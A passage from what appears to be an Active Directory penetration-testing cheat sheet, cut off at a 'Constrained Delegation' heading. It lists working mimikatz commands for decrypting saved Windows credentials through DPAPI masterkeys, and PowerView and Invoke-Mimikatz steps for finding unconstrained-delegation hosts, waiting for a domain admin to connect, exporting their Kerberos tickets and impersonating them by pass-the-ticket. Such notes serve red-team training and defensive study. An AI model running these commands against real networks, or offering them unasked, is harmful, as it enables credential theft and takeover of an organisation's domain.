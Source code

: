 ```
#By using the cred function of mimikatz we can enumerate the cred object and get information about it:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential
#Lets enumerate the Master Key:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"

#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#We now have the masterkey in our local cache:
dpapi::cache

#Finally we can decrypt the credential using the cached masterkey:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```

Detailed Article: [DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-credential-manager-saved-credentials)

#### **Unconstrained Delegation**

_WUT IS DIS ?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a high value target or DA to connect to it, steal his TGT then ptt and impersonate him!_

Using PowerView:

```
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay   
<WaitInterval> -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```

**Note:** We can also use Rubeus!

#### **Constrained Delegation**
